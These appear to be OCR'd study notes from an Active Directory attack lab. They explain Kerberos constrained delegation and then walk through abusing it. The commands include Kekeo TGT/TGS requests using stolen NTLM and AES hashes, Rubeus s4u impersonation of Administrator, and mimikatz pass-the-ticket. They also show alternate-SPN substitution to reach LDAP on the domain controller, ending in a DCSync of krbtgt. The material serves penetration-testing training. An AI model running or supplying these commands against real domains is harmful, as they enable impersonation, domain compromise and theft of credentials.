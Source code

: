 Service for User to Proxy (S4U2proxy) - Allows a service to obtain a TGS to a second service on behalf of a user. Which second service? This is controlled by msDS-AllowedToDelegateTo attribute. This attribute contains a list of SPNs to which the user tokens can be forwarded.
Constrained Delegation with Protocol Transition -
A user - Joe, authenticates to the web service (running with service account websvc) using a non-Kerberos compatible authentication mechanism.
The web service requests a ticket from the Key Distribution Center (KDC) for Joe's account without supplying a password, as the websvc account.
The KDC checks the websvc userAccountControl value for the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION attribute, and that Joe's account is not blocked for delegation. If OK it returns a forwardable ticket for Joe's account (S4U2Self).
The service then passes this ticket back to the KDC and requests a service ticket for the CIFS/dcorpmssql.dollarcorp.moneycorp.local service.
The KDC checks the msDS-AllowedToDelegateTo field on the websvc account. If the service is listed it will return a service ticket for dcorp-mssql (S4U2Proxy).
The web service can now authenticate to the CIFS on dcorpmssql as Joe using the supplied TGS.

NOTE - To abuse constrained delegation in above scenario, we need to have access to the websvc account. If we have access to that account, it is possible to access the services listed in msDS-AllowedToDelegateTo of the websvc account as ANY user.
Enumerate users and computers with constrained delegation enabled -
#PowerView -
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
#ActiveDirectory module -
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
Constrained Delegation using Kekeo -
Abusing with Kekeo -->
Either plaintext password or NTLM hash/AES keys is required. We already have access to websvc's hash from dcorp-adminsrv
Using asktgt from Kekeo, we request a TGT (steps 2 & 3 in the diagram) -
kekeo# tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887eaa8253e7c2749156f
Using s4u from Kekeo, we request a TGS (steps 4 & 5) -
tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorpmssql.dollarcorp.moneycorp.LOCAL
Using mimikatz, inject the ticket -
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_cifs~dcorpmssql.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL.kirbi"'
ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$
Constrained Delegation using Rubeus-
OR Abusing using Rubeus.exe -->
We can use the following command (We are requesting a TGT and TGS in a single command) -
Rubeus.exe s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL /ptt
ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$
Another interesting issue in Kerberos is that the delegation occurs not only for the specified service but for any service running under the same account. There is no validation for the SPN specified.
This is huge as it allows access to many interesting services when the delegation may be for a non-intrusive service!
Either plaintext password or NTLM hash is required. If we have access to dcorpadminsrv hash
Using asktgt from Kekeo, we request a TGT -
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:1fadb1b13edbc5a61cbdc389e6f34c67
Using s4u from Kekeo_one (no SNAME validation) -
tgs::s4u /tgt:TGT_dcorpadminsrv$@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:time/dcorpdc.dollarcorp.moneycorp.LOCAL|ldap/dcorpdc.dollarcorp.moneycorp.LOCAL
Using mimikatz -
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_ldap~dcorpdc.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL_ALT.kirbi"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"' 